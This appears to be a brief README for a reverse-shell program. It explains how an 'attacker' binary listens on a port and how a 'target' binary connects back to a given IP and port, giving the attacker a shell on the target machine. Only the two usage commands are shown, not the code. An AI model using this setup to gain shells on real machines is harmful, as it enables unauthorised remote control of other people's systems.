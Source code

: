 # reverseShell
This is a program in which a 
**Attacker** 
gains a shell of
**Target** 
to which it is connected to.

## Usage
### 1. Setup a server and listen for incoming connections.
On your machine setup a server and start listening on a port.

``` 
./attacker 8080 
```

### 2. Execute client script and setup a connection to the server
You can do this by simply executing the target compiled file

```
./target 192.168.0.2 8080
```

Now you should have a prompt on server machine.

